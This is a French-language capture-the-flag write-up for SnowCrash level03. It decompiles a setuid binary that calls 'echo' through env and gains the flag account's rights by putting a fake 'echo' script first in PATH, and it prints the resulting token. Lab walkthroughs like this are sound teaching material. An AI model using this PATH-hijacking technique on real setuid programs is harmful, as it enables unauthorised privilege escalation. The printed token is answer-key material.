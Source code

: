 
# **Level 03**

Pour ce level03, nous avons un executable dans le dossier courant appartenant a flag03 et que l'on peux executer avec les droits de flag03 -rw`s`r-`s`-r-x (le `s` signifiant de l'executer avec les droits du owner du fichier)

```
level03@SnowCrash:~$ ls -l
total 12
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
```

Lorsque l'on execute le fichier on a cette output:

```
level03@SnowCrash:~$ ./level03 
Exploit me
```

On decide d'utiliser un decompiler de fichier pour essayer de comprendre le code qu'il execute donc avec scp on recupere le fichier et on le mets sur ce site :

[Decompiler explorer](https://dogbolt.org/)

```
scp -P 4242 level03@192.168.56.104:level03 Downloads 
```

On recupere donc ce code

```
int32_t main(int32_t argc, char** argv, char** envp)
{
    gid_t eax = getegid();
    uid_t eax_1 = geteuid();
    setresgid(eax, eax, eax);
    setresuid(eax_1, eax_1, eax_1);
    return system("/usr/bin/env echo Exploit me");
}
```

On vois que le programme fais un appel a `echo` directement en passant par le PATH du terminal donc nous ecrivons un fichier `/var/crash/echo` contenant l'instruction `getflag` et lui donnons les droits d'executions

```
level03@SnowCrash:/var/crash$ touch echo
level03@SnowCrash:/var/crash$ echo getflag > echo
level03@SnowCrash:/var/crash$ cat echo
getflag
level03@SnowCrash:/var/crash$ chmod 777 echo
```

Nous modifions le PATH pour appeler notre echo

```
export PATH=/var/crash:$PATH
```

Nous executons `level03`

```
level03@SnowCrash:~$ ./level03 
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```


> ### NEXT : [Level 04](/level04/resources/README.md)
